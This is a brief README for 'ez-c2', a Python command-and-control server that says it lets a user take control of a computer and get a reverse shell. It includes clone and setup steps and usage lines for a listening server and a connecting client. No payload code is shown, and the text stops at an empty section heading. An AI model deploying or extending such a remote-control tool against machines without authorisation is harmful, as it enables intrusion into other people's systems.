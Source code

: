 init!

# Intro

ez-c2 is a Command & Control Server in CLI written in Python3. It allows to take control of a computer and get a reverse shell.




# Getting started

```bash
git clone https://github.com/auteqia/ez-c2.git
cd ez-c2/
python3 -m venv venv
chmod +x ./venv/bin/activate
./venv/bin/activate
```


# Usage

It can be used server-side or client-side.

## Server-side | Listening

```bash
Usage: python3 script.py -listen <port>
```

## Client-side | Connecting

```bash
python3 -connect <server_ip> <server_port>
```


# What can you do with ez-c2 ?


